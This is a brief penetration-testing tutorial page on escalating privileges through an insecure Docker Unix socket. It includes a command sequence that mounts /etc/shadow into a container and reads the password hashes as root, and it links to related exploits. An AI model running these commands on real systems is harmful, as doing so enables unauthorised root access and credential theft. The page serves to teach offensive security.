 # Unix Socket Exploitation

A Unix socket is another component in \*nix systems that you can leverage to escalate your privileges.To safely use a Unix socket, the appropriate security measures/permissions must be implemented beforehand. As you can imagine, this is not always the case.

#### The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker. By design, the docker daemon binds to a Unix socket instead of a TCP port. By default, that Unix socket is owned by the user root; additionally, the docker daemon always runs as the root user.

Suppose you landed on a machine and the current user is an unprivileged user, that happens to have access to the docker command \(he is part of docker group\). Also, suppose that the docker Unix socket is not protected by implementing the appropriate permissions.

Let’s see how we could escalate our privileges in that machine. Specifically, let try to access /etc/shadow.

```text
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
root@XXXXXXXXXXXX:/# cat /docker/hashedpasswords > /docker/test.txt
root@XXXXXXXXXXXX:/# chmod 777 /docker/test.txt
root@XXXXXXXXXXXX:/# cat /docker/test.txt
```

![](../../../../.gitbook/assets/image%20%2822%29.png)

Two more interesting examples on leveraging Unix sockets for privilege escalation are the following:  
  
[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)  
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)  




